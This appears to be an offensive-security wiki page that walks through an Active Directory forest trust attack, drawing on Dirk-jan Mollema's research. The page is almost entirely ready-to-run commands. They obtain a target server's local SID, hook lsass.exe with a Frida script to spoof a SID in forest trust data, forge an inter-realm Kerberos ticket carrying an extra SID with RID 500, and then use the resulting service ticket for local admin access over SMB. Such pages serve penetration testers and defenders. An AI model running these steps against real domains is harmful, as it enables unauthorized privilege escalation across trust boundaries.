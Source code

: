 {% hint style="info" %}
For more details about how this attack works under the hood, refer to the article on [dirkjanm.io](https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/) by [Dirk-jan Mollema](https://twitter.com/\_dirkjan).
{% endhint %}

{% hint style="warning" %}
Some considerations to reproduce the attack:

* Full control over the trusted forest is assumed.
* Information that flows over to the trusting forest can be modified.
* There is at least one server joined to a domain in the trusting forest (referred to as the "target server" here).
{% endhint %}

The attack can be conducted with [Dirk-jan Mollema](https://twitter.com/\_dirkjan)'s [forest trust tools](https://github.com/dirkjanm/forest-trust-tools).

<pre class="language-bash" data-title="1. Get Local Domain SID" data-overflow="wrap"><code class="lang-bash"><strong># Obtain the local domain's SID of the target server in the trusting forest
</strong><strong># The hostname (Security Principal Name) of the target server is required
</strong>getlocalsid.py "trusted_domain"/"someusername"@"&#x3C;target_server_FQDN or IP address>" "target_server_NETBIOS_name"
</code></pre>

<pre class="language-bash" data-title="2. Spoof the target SID" data-overflow="wrap"><code class="lang-bash"><strong># Become a "domain" in the trusted forest using the spoofed SID so that this one is added to the authorized SIDs in the trusting domain
</strong><strong># Intercept the Netlogon request for an existing child domain in the trusted forset and modify the SID with the spoofed one by hooking lsass.exe when the NetrGetForestTrustInformation RPC call is made 
</strong><strong># Notice that the SID of the child domain to look for and the local domain's SID of the  target server should be modified with the right values
</strong><strong># This is to be run as SYSTEM on the trusted DC
</strong>python3 .\frida_intercept.py lsass.exe
</code></pre>

<pre class="language-bash" data-title="3. Get local admin on the target" data-overflow="wrap"><code class="lang-bash"><strong># 1. Forge an inter-realm/referral ticket with the spoofed SID put as extended SID with RID 500 using the AES key of the incoming trust
</strong><strong>ticketer.py -aesKey "AES_key_of_incoming_trust" -domain "trusted_root_domain_FQDN" -domain-sid "trusted_root_domain_SID" -user-id 1000 -groups 513 -extra-sid "&#x3C;spoofed_SID>"-500 -spn "krbtgt/trusting_root_domain_FQDN" "someusername"
</strong>
<strong># 2. Request a service ticket using the forged referral ticket
</strong><strong># Notice that keys has to be manually modified in the getftST.py script before
</strong>KRB5CCNAME="someusername.ccache" getftST.py -spn "CIFS/target_server_FQDN" -target-domain "trusting_root_domain_FQDN" -via-domain "trusted_root_domain_FQDN" "domain/username" -dc-ip "target_DC_IP"

<strong># 3. Use the obtained ST to access the target server as local admin
</strong>KRB5CCNAME=username.ccache smbclient.py -k "trusted_domain"/"someusername"@"target_server_FQDN" -no-pass
</code></pre>
